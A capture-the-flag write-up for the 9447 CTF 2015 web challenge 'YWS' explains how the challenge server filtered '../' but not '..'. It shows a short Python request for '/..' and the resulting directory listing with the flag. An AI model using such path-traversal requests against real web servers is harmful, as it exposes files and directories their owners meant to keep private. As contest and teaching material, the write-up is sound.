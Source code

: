 # 9447 CTF 2015: YWS

**Category:** Web
**Points:** 130
**Solves:** 197
**Description:**

> My friend wrote a cool web server. I'm sure he's stored some great doxxxs on the website. Can you take a look and report back any interesting things you find?
> 
> The web page is at <http://yws-fsiqc922.9447.plumbing>
> 
> Hint! Where does the website *not* want you to go?


## Write-up

We poked around a lot at this challenge. Tried several different inputs and URLs. Only
later we realized that we could have looked at the binary of [BWS](/9447-ctf-2015/exploitation/bws)
We realized that there was something funky going on regarding the filtering of the
paths. So after poking around a little bit, I found that the following works:
```
import requests as r
print(r.get("http://yws-fsiqc922.9447.plumbing/..").content)
```
And we got back the directory listing contains the flag.
```
<html>
<head>
<title>Directory listing for /..</title>
</head>
<body>
<h2>Directory listing for /..</h2>
<hr>
<ul>
<li><a href="/../.">.</a>
<li><a href="/../..">..</a>
[...]
<li><a href="/../9447{D1rect0ries_ARe_h4rd}">9447{D1rect0ries_ARe_h4rd}</a>
[...]
</ul>
<hr>
</body>
</html>
```

Apparently the webserver filtered out `../` but not `..`. We had troubles 
using the browser or curl to fetch this. Probably because they automatically 
append a `/` character or something like that.

## Other write-ups and resources

* <http://blog.jclariviere.com/posts/ctf-writeup-9447-ctf-2015-yws/>
* <https://asciinema.org/a/30881>
* <http://pastebin.com/jzd6DVMu>
* <https://gist.github.com/Invizory/7772c252b35c1bc95e6b>
* [sophia.re](http://www.sophia.re/yws.mdown.html)
